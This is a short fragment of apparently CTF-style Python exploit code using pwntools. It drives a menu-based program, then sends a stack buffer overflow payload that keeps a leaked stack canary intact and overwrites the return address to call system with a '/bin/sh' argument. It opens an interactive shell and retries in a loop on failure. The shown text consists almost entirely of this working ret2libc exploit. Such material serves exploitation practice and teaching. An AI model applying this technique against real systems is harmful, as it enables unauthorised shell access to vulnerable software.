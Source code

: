 ```
        p.sendline('add')
        p.recvuntil(": ")
        p.sendline("20")
        p.recvuntil(": ")
        p.sendline("a")
        p.recvuntil(": ")   
        payload = 'a'*30 + p32(canary)+'b'*0xc+p32(system_addr)+p32(0)+p32(binsh_addr)
        p.sendline(payload)
        p.interactive()
    except:
        p.close()
        continue
#x=243
```

